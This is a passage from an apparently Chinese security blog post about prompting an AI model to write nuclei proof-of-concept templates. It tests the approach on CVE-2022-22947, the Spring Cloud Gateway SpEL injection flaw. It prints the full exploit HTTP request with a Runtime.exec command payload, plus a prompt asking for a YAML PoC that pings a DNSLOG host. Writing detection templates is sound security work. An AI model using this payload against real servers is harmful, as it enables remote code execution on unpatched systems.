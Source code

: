   

nuclei 自带的 dnslog 挺慢的，这里我就修改超时时间为 10 秒，方便验证

具体生成的代码还是挺不错的，适合辅助安全人员编写 poc

为了测试实战性怎么样，打算搞个最近出现的洞进行测试，这里就选择 CVE-2022-22947 的 SPEL 表达式注入漏洞进行测试

验证漏洞首先会通过 POST 进行发包

```plain
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8096
Content-Type: application/json
Content-Length: 185

{
	"id":"hacktest",
	"filters":[{
		"name":"RewritePath",
		"args":{
			"_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec(\"calc\")}",
			"_genkey_1": "/${path}"
		}
	}]
}
```

之后返回的内容如果是 201 Created，就可以再继续访问/refresh 来刷新路由触发 SPEL 表达式

因此我判断漏洞的步骤就是发送 POST 请求，并判断返回结果是否为 201 Created，如果是则显示有漏洞

Prompt 如下：

```plain
question_text = """
    Please read the following HTTP request according to the operation documentation of the nuclei tool:
    ···
    POST /actuator/gateway/routes/hacktest HTTP/1.1
    Host: 192.168.73.229:8080
    Content-Type: application/json
    Content-Length: 185

    {
        "id":"hacktest",
        "filters":[{
            "name":"RewritePath",
            "args":{
                "_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec(\"calc\")}",
                "_genkey_1": "/${path}"
            }
        }]
    }
    ···

    The HTTP response is as follows:
    ···
    HTTP/1.1 201 Created
    ···

    The above request response is the spel injection vulnerability in spring cloud gateway versions prior to 3.1.1+ and 3.0.7+. Severity level is High.The author of the discovery is VMware, and the cve number is CVE-2022-22947. Help me generate a nuclei poc, requiring the use of nuclei Use the built-in DNSLOG to judge the vulnerability.And judging that the HTTP response status code is 201 Created.Don't generate too many explanations for me, I only need the complete yaml code.Use the dns protocol of interactsh_protocol, and modify the cmd command parameter to ping interactsh address,also mark {{Hostname}}.
    """
```